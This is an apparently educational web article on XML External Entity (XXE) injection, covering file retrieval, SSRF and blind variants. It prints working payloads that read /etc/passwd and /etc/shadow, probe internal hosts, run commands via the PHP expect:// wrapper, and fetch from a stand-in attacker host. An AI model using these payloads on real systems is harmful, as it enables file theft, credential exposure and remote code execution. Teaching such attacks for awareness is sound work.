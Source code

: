 ## What is an XXE Attack?

XXE (XML External Entity Injection) is a web-based security vulnerability that enables an attacker to
interfere with the processing of XML data within a web application.

It often enables visibility of the files on the application server file system and interacts with a
backend or external system that the application itself has access to. In some scenarios, an attacker can
take an XXE attack a step further by leveraging the XXE attack payload to perform
SSRF (Server-Side Request Forgery ) in order to compromise the underlying server or other backend infrastructure.

## How do XXE attacks work?

XML is an extremely popular format used by developers to transfer data between the web browser and the server.

XML requires a parser, which is often where vulnerabilities are introduced. XXE enables an entity to be
defined based on the content of a file path or URL. When the server reads the XML attack payload,
it parses the external entity, merges it into the final document, and returns it to the user with the
sensitive data inside.

XXE attacks can also be leveraged by an attacker to perform server-side request forgery (SSRF)
attacks to compromise the underlying server.

##Types of XXE attacks
---

>There are several types of XXE attack, namely:
---

-   Exploiting XXE to retrieve files – When an external entity contains the contents of a file
    and is returned as an application response.

-   Exploiting XXE to perform SSRF attacks – When an external entity is defined based on a back-end systemURL .

-   Exploiting blind XXE to exfiltrate data out-of-band – When sensitive data is transferred from an
    application server to an environment that the attacker has control over.

-   Exploiting blind XXE to retrieve data via error messages – When an attacker can trigger a parsing error
    message that contains sensitive data.

-   Exploiting XXE to retrieve files

When performing an XXE attack that retrieves a random file from the server, modification of the submitted
XML is required, which can be done in two ways:

-   Adapt or introduce a DOCTYPE element that specifies an external entity containing the file path.

-   Edit the data value in the XML that gets returned in the response from the application, to
    leverage a specified external entity.

In the example below, let’s suppose an e-commerce sitechecks stock levels of a specific product by
submitting the following XML:

```
<?xml version="1.0" encoding="UTF-8"?>
<stocklevel><ProductID>215</productID></stocklevel>
```

This particular application performs no specific prevention against XXE, so an attacker can exploit the XXE
vulnerability to retrieve the /etc/passwd file by submitting an XXE attack payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stocklevel><ProductID>&xxe;</ProductID></stocklevel>
```

The above XXE attack payload defines an external entity &xxe; whose value is the content of
the /etc/passwd file and uses the entity within the ProductID value. Consequently,
the response from the application includes the contents of the file:

```
Invalid Product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Exploiting XXE to perform SSRF attacks

Although retrieving sensitive data is a big concern with XXE, they can also be leveraged to perform
server-side request forgery (SSRF), making the  server-side application perform HTTP requests to any
URL that the server has access to.

To do this, an external XML entity needs to be defined using the targeted URL, and then used within a data value.
Doing this would enable an attacker to read the response from the URL resulting in a two-way interaction
with the backend.

In the XXE example below, the external entity will force the server to perform a back-end HTTP request
to an internal system:

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-webapp.com/"> ]>

Blind XXE vulnerabilities & exploitation to retrieve error data messages

Blind XXE instances of XXE attacks are very common, but the application does not return the defined
external entities in responses, preventing the direct retrieval of server-side files.

To exploit a Blind XXE vulnerability however, an attacker must utilise more complex and advanced methods.
Out-of-band methods can be used to detect vulnerabilities and exploit them to exfiltrate information,
or XML parsing errors can be triggered where sensitive data is contained within the error messages.

## XXE Attack Examples

Have a look at the examples below from our friends at OWASP:

> Accessing a local resource that may not return

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
```
> Remote code execution

If fortune is on our side, and the PHP “expect” module is loaded, we can get RCE. Let’s modify the payload

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>
```
> Disclosing /etc/passwd or other target files
```<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/shadow" >]>
<foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
<foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>
<foo>&xxe;</foo>
```
